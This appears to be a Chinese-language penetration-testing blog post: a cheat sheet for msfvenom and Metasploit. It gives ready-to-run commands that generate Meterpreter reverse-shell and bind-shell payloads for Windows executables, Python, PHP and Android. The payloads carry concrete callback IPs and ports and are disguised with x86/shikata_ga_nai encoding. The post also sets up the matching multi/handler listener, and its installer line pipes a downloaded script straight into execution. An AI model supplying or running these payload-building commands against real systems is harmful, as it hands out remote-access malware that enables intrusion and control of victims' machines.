 ```yaml
---
layout: post
title:  "内网渗透之msfvenom"
categories: 内网渗透
tags: 工具 msfvenom
author: 0e0w
---
```


* content
{:toc}
这是一篇关于msfvenom文章。由于作者能力有限，文中难免会出现一些错误，请谅解。本文创建时间为2020年6月4日，最近一次更新时间为2020年9月15日。本文会不定期更新。鉴于凡世之忙碌，下一次更新也许是明天，也许是下辈子。
> 关于什么是msfvenom？更多详细内容见 [msfvenom官网](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)和[如何使用](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom)。

## 0x01 msfvenom概述

### 基础介绍

msfvenom一般需要配合msf进行利用。使用msfvenom生成shellcode，使用msf进行监听，在靶机上运行shellcode。msfvenom几乎支持生成各种平台的shellcode。是后渗透测试过程中强大的武器之一。

### 安装方式

msfvenom是msfpayload和msfencode的组合，安装msf之后便可使用。

一键安装msf

>curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \chmod 755 msfinstall && \./msfinstall

更新msf
>
sudo msfupdate
>

## 0x02 msfvenom命令

- msfvenom -h #查看帮助
- msfvenom -l payloads #查看支持生成的payload
- msfvenom -l archs #查看支持的系统架构
- msfvenom -l platforms #查看支持的平台
- msfvenom -l encrypt #查看所有的加密方式
- msfvenom -l encoders #查看所有的编码器

例：

> msfvenom -a 系统架构 --platform 系统平台 -p 有效载荷 lhost=攻击机IP lport=攻击机端口 -e 编码方式  -i编码次数 -f 输出格式 -o 输出文件

> msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp lhost=111.231.228.112 lport=6059 -i 3 -e x86/shikata_ga_nai -f exe -o x86reverse_tcp.exe
>

## 0x03 msfvenom利用

**MSF监听器**

- use exploit/multi/handler
- set payload windows/meterpreter/reverse_tcp #设置成payload的模式
- set rhost 111.111.111.112
- set lport 6095
- exploit -j

**sessions操作**

- sessions -i 2
- shell

### Windows exe

靶机无公网ip

- msfvenom -p windows/meterpreter/reverse_tcp lhost=111.111.111.112 lport=6095 -f exe -o x86reverse_tcp.exe
- msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=111.111.111.112 lport=6095 -f exe -o x64reverse_tcp.exe

靶机有公网ip

- msfvenom -p windows/x64/meterpreter/bind_tcp lport=6095 -f exe -o bind_tcp.exe

### Linux elf

- 

### Python

靶机无公网ip

- msfvenom -p windows/meterpreter/reverse_tcp lhost=111.111.111.112 lport=6095 -f py -o x86reverse_tcp.py

靶机有公网ip

- msfvenom ­-p windows/x64/meterpreter/bind_tcp lport=6095 ­-f py -o exp.py

### PHP

- msfvenom -p php/meterpreter/reverse_tcp LHOST=111.111.111.112 LPORT=6095 -f raw -o session.php

### Android

- msfvenom -p android/meterpreter/reverse_tcp LHOST=111.111.111.112 LPORT=80 -o msf.apk 

### apple_ios

- 

## 0x04 参考链接

- https://blog.csdn.net/caiqiiqi/article/details/84102629


